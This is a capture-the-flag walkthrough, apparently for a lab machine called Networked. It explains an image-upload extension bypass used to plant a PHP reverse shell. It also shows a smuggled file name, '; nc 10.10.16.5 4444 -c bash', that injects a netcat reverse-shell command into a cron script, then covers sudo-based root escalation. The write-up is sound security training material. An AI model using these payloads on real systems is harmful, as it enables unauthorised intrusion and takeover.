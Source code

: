 # Networked

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (6) (1).png" alt=""><figcaption></figcaption></figure>

### File Upload RCE

First, we can use `gobuster` on the website:

<figure><img src="../../../.gitbook/assets/image (24) (2) (1) (2).png" alt=""><figcaption></figcaption></figure>

The `/backup` directory would show us a directory with a backup file:

<figure><img src="../../../.gitbook/assets/image (164) (1).png" alt=""><figcaption></figcaption></figure>

Within the backup file, there's this PHP code here:

```php
<?php
require '/var/www/html/lib.php';

define("UPLOAD_DIR", "/var/www/html/uploads/");

if( isset($_POST['submit']) ) {
  if (!empty($_FILES["myFile"])) {
    $myFile = $_FILES["myFile"];

    if (!(check_file_type($_FILES["myFile"]) && filesize($_FILES['myFile']['tmp_name']) < 60000)) {
      echo '<pre>Invalid image file.</pre>';
      displayform();
    }

    if ($myFile["error"] !== UPLOAD_ERR_OK) {
        echo "<p>An error occurred.</p>";
        displayform();
        exit;
    }

    //$name = $_SERVER['REMOTE_ADDR'].'-'. $myFile["name"];
    list ($foo,$ext) = getnameUpload($myFile["name"]);
    $validext = array('.jpg', '.png', '.gif', '.jpeg');
    $valid = false;
    foreach ($validext as $vext) {
      if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
        $valid = true;
      }
    }

    if (!($valid)) {
      echo "<p>Invalid image file</p>";
      displayform();
      exit;
    }
    $name = str_replace('.','_',$_SERVER['REMOTE_ADDR']).'.'.$ext;

    $success = move_uploaded_file($myFile["tmp_name"], UPLOAD_DIR . $name);
    if (!$success) {
        echo "<p>Unable to save file.</p>";
        exit;
    }
    echo "<p>file uploaded, refresh gallery</p>";

    // set proper permissions on the new file
    chmod(UPLOAD_DIR . $name, 0644);
  }
} else {
  displayform();
}
?>
```

In short, we can see that this file checks for the file extensions before accepting a file. Seeing that this is a PHP file, we can attempt to upload a PHP reverse shell. To bypass the extension check, notice how it uses `substr_compare` and verifies whether a valid extension is present. As such, we can create a file ending in `.jpg.php` to bypass this:

<figure><img src="../../../.gitbook/assets/image (77) (2).png" alt=""><figcaption></figcaption></figure>

Then, we can upload it to `upload.php`. We can visit `photos.php` to trigger the shell:

<figure><img src="../../../.gitbook/assets/image (4) (1) (5) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (168) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### To Guly

Within the machine, we can view the user `guly` directory:

<figure><img src="../../../.gitbook/assets/image (154) (4).png" alt=""><figcaption></figcaption></figure>

The crontab specifies that the user is running the `check_attack` script routinely.

<figure><img src="../../../.gitbook/assets/image (169) (2).png" alt=""><figcaption></figcaption></figure>

One dangerous part of this script is the usage of `exec` to run stuff. The `$value` variable is not sanitised, and we can exploit this by creating a file with the name of `; nc 10.10.16.5 4444 -c bash` within the `/var/www/html/uploads` directory. After doing this and waiting, we would gain a reverse shell and can capture the user flag:

<figure><img src="../../../.gitbook/assets/image (28) (2) (4).png" alt=""><figcaption></figcaption></figure>

### To Root

We can check the `sudo` privileges of this user and find that there's one script we can run as `root`.

<figure><img src="../../../.gitbook/assets/image (58) (4) (1).png" alt=""><figcaption></figcaption></figure>

Here's the script's contents:

<figure><img src="../../../.gitbook/assets/image (56) (2) (3).png" alt=""><figcaption></figcaption></figure>

This takes user input and executes does not sanitise it at all. When we run the script, we can actually execute commands:

<figure><img src="../../../.gitbook/assets/image (2) (2) (2) (2).png" alt=""><figcaption></figcaption></figure>

To get a `root` shell, we just need to run `/bin/bash`:

<figure><img src="../../../.gitbook/assets/image (23) (2) (4) (2).png" alt=""><figcaption></figcaption></figure>

Rooted!
